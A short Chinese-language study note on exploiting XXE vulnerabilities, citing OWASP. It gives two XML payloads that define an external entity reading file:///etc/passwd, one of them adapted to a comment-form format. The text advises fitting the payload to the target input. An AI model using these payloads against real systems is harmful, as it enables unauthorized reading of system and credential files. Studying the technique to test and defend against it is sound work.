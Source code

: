 ## 对于XXE漏洞的利用

在有些可以运行xml的对话框中，可以利用XXE漏洞，来查看一些文件

[这是原文](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

```
这是将passwd暴露出来的例子
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
原文中有更多的使用例子
```

但值得注意的是原文的例子不能直接拿来用，得根据对话框的格式来进行相关的修改

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
comment的内容就是的随机应变的内容
```
